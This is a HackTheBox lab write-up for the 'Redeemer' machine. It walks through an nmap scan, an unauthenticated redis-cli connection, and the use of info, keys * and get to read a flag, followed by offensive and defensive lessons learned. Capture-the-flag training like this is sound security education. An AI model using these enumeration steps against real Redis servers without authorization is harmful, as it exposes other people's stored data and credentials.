



# HTB — Redeemer (Very Easy/Linux)


 


## Summary

Redeemer is a very easy Linux machine designed to introduce Redis (Remote Dictionary Server) enumeration. The service is found to be accessible without authentication, allowing for full database inspection and the retrieval of the flag stored as a key.

**Attack Chain:** Nmap → Redis CLI → Database Selection → Flag Retrieval

---

## Reconnaissance

**Port Scan**

```Bash
nmap -sV -sC -p- --min-rate 5000 10.129.129.123
```

Results:

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7



Nmap reveals that port **6379** is open. This is the default port for **Redis**. The `-p-` flag is essential here to ensure all ports are scanned, as Redis might not be found within the default top 1000 ports.

---

## Redis Enumeration

Since the service is open, we use `redis-cli` to attempt a connection without a password.

```Bash
redis-cli -h 10.129.129.123
```

Once connected, we use the `info` command to check the server status and look for the Keyspace section, which identifies active databases and the number of keys stored.

```Bash
127.0.0.1:6379> info
# ...
# Keyspace
db0:keys=11,expires=0,avg_ttl=0
```



The output confirms that **database 0 (db0)** is active and contains several entries.

---

## Exploitation — Redis Data Extraction

We select the identified database and list all available keys to locate the flag.

```Bash
127.0.0.1:6379> select 0
OK
127.0.0.1:6379> keys *
1) "temp"
2) "flag"
3) "stor"
...

127.0.0.1:6379> get flag
"5b436034171f5a930843199901705332"
```

Using the `get` command on the `flag` key reveals the cleartext flag string.

---

## Post-Exploitation — Flag

```Bash
# Flag retrieved directly from Redis db0
5b436034171f5a930843199901705332
```



---

## Lessons Learned

**Offensive Perspective**

- Redis instances are frequently left unauthenticated for internal use, leading to critical data exposure if the network is breached.

- Commands like info, keys *, and get are fundamental for rapid data exfiltration in NoSQL environments.

- Redis can be a high-value target as it often stores session tokens, credentials, or cached sensitive information.

**Defensive Perspective**

- Enforce Authentication: Always set a strong password in the redis.conf file using the requirepass directive.

- Bind to Localhost: Configure Redis to only listen on 127.0.0.1 unless remote access is explicitly required for the application.

- Rename Sensitive Commands: Disable or rename dangerous commands like FLUSHALL or CONFIG to prevent unauthorized administrative actions.

---

## Attack Chain Summary

NMAP — port 6379 open (Redis)
↓
redis-cli — connection successful (No Password)
↓
SELECT 0 — accessed the primary database
↓
KEYS * — listed all stored keys
↓
GET flag — retrieved flag value
↓
FLAG ✅

---

## References

- [HackTheBox — Vaccine](https://app.hackthebox.com/machines/Redeeme)
